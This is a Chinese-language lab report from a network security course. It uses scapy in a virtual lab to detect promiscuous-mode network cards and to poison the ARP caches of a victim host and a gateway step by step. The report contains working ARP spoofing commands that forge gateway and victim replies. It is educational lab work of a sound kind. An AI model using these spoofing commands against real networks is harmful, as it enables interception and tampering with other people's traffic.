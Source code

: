 # 第四章：网络监听



实验网络拓扑：

![networktop](./img/networktop.png)

网络中节点的基本信息如下：

| 主机名称      | 网卡   | IP地址         | MAC地址           |
| ------------- | ------ | -------------- | ----------------- |
| kali-attacker | eth0   | 172.16.111.150 | 08:00:27:71:0e:38 |
| ubuntu-victim | enp0s9 | 172.16.111.145 | 08:00:27:1b:cf:38 |
| gateway       | enp0s9 | 172.16.111.1   | 08:00:27:f2:df:5d |



攻击者主机上已经安装 `scapy` 。



## 实验一：检测局域网中的异常终端



在受害者主机上检查 `混杂模式` 是否开启。

```bash
ip link show enp0s9
```

能看到受害者主机 enp0s9 网卡的混杂模式并没有开启，没有 `PROMISC` 字样。

![promiscoff](./img/promiscoff-victim.png)



在攻击者主机上开启 `scapy` 。

![openscapy](./img/openscapy.png)



使用 `promiscping` 命令向受害者主机发送 `who-has` ARP 数据包。

```bash
pkt=promiscping("172.16.111.104")
```

![receive-0-packet](./img/receive-0-packet.png)

发现没有收到数据包。



回到受害者主机，将它的网卡改成混杂模式。

```bash
sudo ip link set enp0s9 promisc on
```

观察受害者网卡情况。

![adapter](./img/promiscon-victim.png)

此时再次在攻击者主机上构造 `who-has` ARP 包。发送，观察结果。

![receive-1-packet](./img/receive-1-packet.png)

此时发出的 ARP 包有了一个回应。

关闭受害者网卡的混杂模式。

```bash
sudo ip link set enp0s9 promisc off
```

![promiscoff](./img/promiscoff-again.png)



## 实验二：手工单步“毒化”目标主机的 ARP 缓存



在 `攻击者主机` 上构造一个 `ARP` 请求。

```bash
arpbroadcast = Ether("ff:ff:ff:ff:ff:ff")/ARP(op = 1, pdst="172.16.111.1")
```

查看构造的 `ARP` 请求包。

```bash
arpbroadcast.show()
# ###[ Ethernet ]###
#  dst= ff:ff:ff:ff:ff:ff
#  src= 08:00:27:71:0e:38
#  type= ARP
# ###[ ARP ]###
#     hwtype= 0x1
#     ptype= IPv4
#     hwlen= None
#     plen= None
#     op= who-has
#     hwsrc= 08:00:27:71:0e:38
#     psrc= 172.16.111.150
#     hwdst= 00:00:00:00:00:00
#     pdst= 172.16.111.1
```

![arpbroadcast](./img/arpbroadcast.png)

用 `srp(arpbroadcast,timeout=2)` 命令发送 ARP 包。从返回的包中获取网关的 MAC 地址：

![gw_mac](./img/gw_mac.png)

可知网关的 MAC 地址是 `08:00:27:f2:df:5d ` 。

接着伪造网关的 `ARP` 响应包发给受害者主机。

```python
arpspoofed=Ether()/ARP(op=2,psrc="172.16.111.1",pdst="172.16.111.145",hwdst="08:00:27:81:0e:38")
sendp(arpspoofed)
```

![fakearp](./img/fakearp.png)

查看受害者主机上网关的 `mac` 地址，已经改变。

![mac_changed](./img/mac_changed.png)

现在开始恢复受害者主机上的 `arp` 表。在攻击者主机上冒充网关给受害者主机发送 `arp` 包。

![restore](./img/restore1.png)

这里，网关的 `ip` 地址和 `mac` 地址是相对应的。

在受害者主机上查看 `arp` 对应情况

![victim_restored](./img/victim-restored.png)

可以看到 `arp` 已经恢复。

现在伪装成受害者向网关发送请求。由于原本网关上的 ARP 表是正常的，所以尝试投毒。

![gateway_already_has_macvic](./img/gateway_already_has_macvic.png)

```
>>> restorepkt1=Ether()/ARP(op=2,pdst="172.16.111.1",hwdst="08:00:27:f2:df:5d",psrc="172.16.111.145",hwsrc="08:00:27:2a:4b:04")
>>> sendp(restorepkt1,count=100,inter=0.2)

```

此时可以看到网关的 `arp` 表 受害者的 `mac` 地址已经变成攻击者随意写的 `mac` 地址。

![poison_gateway](./img/poison_gateway_gateway.png)

更改成功。



## 问题与解决方法



1.  `send` 和 `sendp` 傻傻分不清楚。

   `send` 是三层的指令，`sendp` 是二层的指令。用 `send` 发送构造的二层的包会让 `arp` 表投毒无法正常工作。使用 `sendp` 发送后恢复正常。



## 参考资料

- [实验 · 网络安全 ](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

- [scapy.contrib.send — Scapy 2.5.0 documentation](https://scapy.readthedocs.io/en/latest/api/scapy.contrib.send.html)

- [Search — Scapy 2.5.0 documentation](https://scapy.readthedocs.io/en/latest/search.html?q=sendp&check_keywords=yes&area=default#)
